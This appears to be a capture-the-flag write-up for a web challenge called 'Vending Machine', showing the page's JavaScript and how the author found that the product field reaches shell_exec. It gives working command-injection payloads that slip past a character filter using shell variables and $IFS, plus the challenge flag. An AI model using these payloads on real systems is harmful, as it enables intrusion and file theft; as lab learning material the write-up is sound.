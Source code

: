 ```yaml
---
tags:
  - "#fleeting"
links:
  - "[[MOC WriteUps]]"
---
```


![](20241103010504.png)

# Vending Machine
First we try writing soda to understand how it works. When u right soda/chips it prints “dropping soda/chips…”. and the product img is dropping from the vending machine pic.
![](20241102065209.png)

Then i tried to see the source and i found a JS file that contains where `product` is a map for some defined products (where they their images on the server)
```javascript
setTimeout(async () => {
// Wait for PHP response
const response = await sendProduct(input);
		output.innerHTML = response; // Show PHP response
		item.style.transform = "translateY(0)"; // Reset position for next drop
		setTimeout(() => item.style.display = "none", 1000); // Hide item after a second
	}, 2000); // Time it takes to drop the item
	if (products[input.toLowerCase()]) {
		output.innerHTML = `Dropping ${input}... ðŸ¥³`;
		// Show item and animate drop
		item.style.display = "block"; // Show the item
		item.innerHTML = `<img src="${products[input.toLowerCase()]}" alt="${input}">`; // Set image source
		// Move item up to simulate dropping down
		item.style.transform = "translateY(-60px)"; // Move up to simulate dropping down
	} 
	// Clear input field
	document.getElementById('product-input').value = '';
}
// Function to send product to PHP and return response
async function sendProduct(product) {
    const response = await fetch('drop-item.php', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `product=${encodeURIComponent(product)}` // Send product name
    });
    if (response.ok) {
        const responseData = await response.text(); // Get the response text
        return responseData; // Return response to be displayed
	} else {
        return "Error communicating with the server."; // Handle errors
    }
}
```
at the first i tried many rabbit holes like XSS and SQLi, i stayed alot trying an SQLi :\ , any way i tried to understand what characher is work and what’s doesn’t, i found that `[<,>,SPACE,+,\,COMMA]` r disappearing when i send to the server.
i tried to inject a php code thinking it may work but i found that when i send `echo` with a non alphabatic after and before it it disappears.
Here i was likely thinking it’s something like a php injection :)
Any way when i searched to understand what NoSQLi is i tried some payloads and it didn’t work at all even the SQLi i used.
Then when i tried to add a null byte `%00` it ruined the app and gave me this.

![](20241102070527.png)

As u can see the app is using `shell_exec($command)` where the `$command` is the `product` in our request.
Sooooo i got that there is a command injection here (where i didn’t learn yet).
I tried some basic command and all of them r disappearing, i thought i should use a different type of dealing with the server but there wasn’t.
I tried to find a way to make the command with separating it with something in between that the shell understand it means nothing but i didn’t find anything.
And then i remembered something in Linux that u can call a command when it’s a value of a variable like executing `$VAR` if VAR is a command it will be executed.
Soooo let’s separate our commands into 2 vars and see what’s happening.
i sent this payload `f=l;l=s;$f$l` and it responed with this
```text
f=l;l=s;$f$l is not available Dockerfile
assets
docker-compose.yml
drop-item.php
entrypoint.sh
index.html
script.js
styles.css
```
Hehehe 😍, now the game is on.
But wait… we still can’t separate the space : | , i searched alot on how to get an alterative to the space in linux shell then i found `$IFS`, then i tried to add a word after the variable to make it work well so i used `$IFS"arg"` and it worked well.
So when catting `entrypoint.sh` we found there this script 
```shell
#!/bin/sh
echo "$FLAG" > /home/apache/flag && chmod 644 /home/apache/flag && apache2-foreground
```
Now we can peacfully get the flag by `f=ca;l=t;$f$l$IFS"/home/apache/flag"` 

![](20241102071920.png)

The flag: `CYCTF{C1luQGN9pX6LsTDdJKsAb_KWSBYKw4Q08tW0fii6jrStt319uC3PolHeR8joQYnvZTn4SRESYI3JWhWww70Hcm4xzj7kg33tZ0pYG35uQTGuFw}`

